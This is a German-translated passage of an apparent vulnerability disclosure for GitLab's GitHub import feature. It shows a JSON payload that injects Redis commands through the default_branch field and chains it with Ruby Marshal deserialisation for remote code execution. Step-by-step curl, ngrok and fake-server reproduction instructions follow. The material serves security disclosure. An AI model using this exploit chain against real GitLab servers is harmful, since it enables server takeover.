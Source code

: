 Also, indem Sie eine [[API]]-Antwort mit einem zurückgeben default_branch das überschreibt to_s und bytesize Sie können beliebige Redis-Befehle aufrufen:

```json

        {
            "default_branch": {
                "to_s": {
                    "to_s": 'ggg\r\nINJECT_RESP_HERE',
                    "bytesize": 3,
                }
            }
        }

```

Dies kann kombiniert werden mit einem Anruf an Marshal.load beim Laden einer _gitlab_session, 
um ein Deserialisierungs-Gadget auszuführen (wie https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) und erhalte RCE.

### Steps to reproduce

	1.  Bearbeite gen_payload3.rb (F1882976) und ändere den Befehl unter `git_set`, das wird der Befehl sein, der ausgeführt wird.
	2.  Ändere die `session:gitlab:gggg` zu etwas anderem als `gggg`.
	3.  Starte `ruby ./gen_payload3.rb` und kopiere die Payload.
	4.  Bearbeite fake_server3.py (F1882972) und aktualisiere die Nutzlast.
	5.  Starte `ngrok http 5000` und kopiere die URL.
	6.  Bearbeite `fake_server3.py` und aktualisiere die Ngrok-URL.
	7.  Starte den Server mit `FLASK_APP=fake_server3.py flask run`.
	8.  Benutze `curl --request POST --url "http://gitlab.wbowling.info/api/v4/import/github" 
	    --header "content-type: application/json" --header "PRIVATE-TOKEN: API_TOKEN" 
	    --data "{\"personal_access_token\": \"fake_token\",\"repo_id\": \"12345\",\"target_namespace\": 
	    \"root\",\"new_name\": \"gh-import-$RANDOM\",\"github_hostname\": \"https://9895-45-248-49-157.ngrok.io\"}"`
	    und ersetze `gitlab.wbowling.info` mit deiner Gitlab-URL, `API_TOKEN` mit einem gültigen Gitlab-Token, 
	    `target_namespace` mit einem Namespace, auf den Sie Zugriff haben. Und `github_hostname` mit deiner Ngrok-URL.
	9.  Warte ungefähr eine Minute und man sollte Anfragen in der Flask-App sehen. 
	    Sobald Sie eine Anfrage für `/api/v3/repos/fake/name` sehen, sollten Sie lange genug gewartet haben. Außerdem wird ein Fehler in 
	    `/var/log/gitlab/gitlab-rails/exceptions_json.log` über `comparison of String with 0 failed` angezeigt.
	10. Benutze `curl -v 'http://gitlab.wbowling.info/root' -H 'Cookie: _gitlab_session=gggg'` 
	    und ersetze `gitlab.wbowling.info` mit deiner Gitlab-URL und `gggg` mit der Zeichenfolge, die du benutzt hast in `gen_payload3.rb`.
	11. Der Payload sollte nun ausgeführt werden.

### Impact

Ermöglicht einem Angreifer, ein Github-Repo zu importieren und beliebige Befehle auf dem Server auszuführen.
